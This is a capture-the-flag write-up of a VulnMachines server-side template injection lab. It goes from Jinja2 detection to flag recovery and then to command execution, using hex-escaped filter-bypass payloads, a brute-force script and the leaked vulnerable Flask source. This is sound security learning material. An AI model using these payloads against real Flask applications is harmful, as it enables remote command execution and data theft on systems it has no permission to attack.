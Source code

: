 ### Server Side Template Injection

<h3> VulnMachines SSTI </h3>
  
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5ba69ce8-7c1d-4b12-acd4-ac938cc0a05a)

After going over to the web page it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3f12114e-5007-40e8-872c-0852bc94afe7)

Trying to input something shows it get reflected back
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6b197aee-aeec-4a59-ae29-fdf22ae038e5)

Using basic SSTI payload works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0c3d4f0d-3339-4052-a5ff-80a80299048d)

Let's use this SSTI check to know what template engine it uses
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/72ceb69f-0749-42af-a825-e578cbcceee7)

First i'll try `${7*7}` but it doesn't get evaluated
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fca6e016-516e-4d4e-99eb-f2f51a177d5a)

Next we move unto the down part of what we are using to get the template engine

Now i'll try this `{{7*7}}`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/40a994fe-f655-4155-b869-57472c9ee536)

It gets evaluated

So we move unto `{{7*'7'}}`

But doing that gives us an error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/727b0876-0742-4285-b9aa-90f9ffa334b7)

```
Your nickname contains restricted characters!
```

To bypass this we can try using double quote instead of single quote

Doing that works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1cd3936c-6e86-445b-ad6a-3162ba396fbd)

From here we can say the template engine is either *Jinja2 or Twig*

But from the web server header we can then conclude it's *Jinja2* templating engine that is being used since the webserver is built on python
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f1e4fd74-e41d-4cc8-8bff-b980e4cf0796)

The aim of this challenge is to get the flag 

Checking the {{config}} env works and shows the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4ad45aa4-090f-4af8-9756-dda57100a7d7)

```
Flag: 56756c6e6d616368696e6573202d20506c61636520666f722050656e746573657273
```

It is in it's hex form

I used python to decode it

```
#!/usr/bin/python3
# Author: Hack.You

encoded = '56756c6e6d616368696e6573202d20506c61636520666f722050656e746573657273'
decoded = bytes.fromhex(encoded)
flag = b'vnm{'+decoded+b'}'
print(f'Flag: {flag}')
```

Running it gives us the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e81b6b1e-30d0-4f84-a5f3-82486aa33f81)

But how about we try get RCE

First I need to know the classes that are present and preferably the subprocess class

Reason is because it's a python module that allows us to execute commands
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/dbe5deff-2bf0-4f45-822f-f50bfc2397fe)

So here's the payload:

```
{{""|attr("__class__")|attr("__base__")|attr("__subclasses__")()}}
```

But giving that to the web server gives an error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/53ac6936-426d-43c6-81c8-6a9177046c78)

```
Your nickname contains restricted characters!
```

It seems like it filters another character 

To make it easier i'll intercept one of the post request and save it in a file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6410d653-91b7-4369-bd27-b95cea534ad1)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/bc21fc54-736c-4da6-aa63-c70a73ff25ad)

Now i'll use ffuf to fuzz for allowed special characters
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/51b0b6af-5d24-475b-9c87-54d7361592ba)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1260f974-8e17-4d44-bcee-3b0d2a161e9c)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2e5bc423-bfad-4f9b-ac47-033ca5b6e72c)

Sorry about the way my ffuf is that's the new update 😥

But we can see the allowed characters :)

One way we can improvise in bypassing the filter is by converting the blacklisted character to hex
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2155b706-5ad1-4fa6-a80d-5ae9297da27a)

Using the updated payload works 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5e6054cd-da25-4b31-a12c-d1b2a2afd8fe)

Now we can check if the subprocess class is among it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b19d4d65-bc52-4985-a927-6eda3d9984f0)

Cool it's among the classes

So the final payload should be:

```
{{""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")(position_of_subprocess_number))("cat+app\x2epy",shell=True,stdout=-1)|attr("communicate")()|attr("\x5f\x5fgetitem\x5f\x5f")(0)|attr("strip")()}}
```

We need to get the position of the subprocess class number

Burp intruder can help with that :) i did try scripting this but unfortunately  i can't seem to make it send as raw data without it being converted to it's string form

```python
# Under dev
import requests

def main():

    url = 'http://hackme2.vulnmachines.com:8470/'

    for i in range(1000):
        
        data = {
            'nickname': '{{""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")({})("id",shell=True,stdout=-1)|attr("communicate")()|attr("\x5f\x5fgetitem\x5f\x5f")(0)|attr("strip")()}}'.format(i)
        }
        
        reqStatusCode = requests.post(url, data=data).status_code

        if reqStatusCode == 200:
            print(f'[+] Subprocess position found at: {i}')


if __name__ == '__main__':
    main()
```

I'll just fuzz using Burp Intruder
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/04ec0628-1e92-44aa-99bd-a3c99e4f08bb)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/dc6c8896-3442-4ce3-8d02-75a0f544a6c4)

After running it I got this 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/52b7ad19-eb4f-419e-ba69-ed57e89e5e1b)

We can see the request with a content length of `258`

Checking it shows that it indeed works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/083c3b19-7840-4ecb-a003-1496c2233df9)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/11c50698-5687-49b5-bb7f-b251fed673c5)

And the position for the subprocess class is `286`

We can then try reading the app.py file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3062bfcd-5b67-4dee-b0ae-ba63e7ef6667)

```
{{""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")(286)("cat+app\x2epy",shell=True,stdout=-1)|attr("communicate")()|attr("\x5f\x5fgetitem\x5f\x5f")(0)|attr("strip")()}}
```

Here's the result gotten from reading app.py (P.S: I exfiltrated it 🙂)

```python
import random
from flask import Flask, render_template_string, render_template, request

app = Flask(__name__)
app.config['SECRET_KEY'] = 'Follow us on Twitter rapidsafeguard'

#Tiaonmmn don't remember to remove this part on deploy so nobody will solve that hehe
'''
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
'''

app.config['flag'] = '56756c6e6d616368696e6573202d20506c61636520666f722050656e746573657273'
#app.config['flag']="Success fully pass SSTI"
nicknames = ['˜”*°★☆★_%s_★☆★°°*', '%s ~♡ⓛⓞⓥⓔ♡~', '%s Вêчңø в øĤлâйĤé', '♪ ♪ ♪ %s ♪ ♪ ♪ ', '[♥♥♥%s♥♥♥]', '%s, kOтO®Aя )(оТеЛ@ ©4@$tьЯ', '♔%s♔', '[♂+♂=♥]%s[♂+♂=♥]']
#nicknames=['psycho','rapidsafeguard']
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        try:
            p = request.values.get('nickname')
            id = random.randint(0, len(nicknames) - 1)
            if p != None:
                if '.' in p or '_' in p or '\'' in p:
                    return 'Your nickname contains restricted characters!'
                return render_template_string(nicknames[id] % p)

        except Exception as e:
            print(e)
            return 'Exception'

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

We can also see the flag there 😅

And we're done 👻
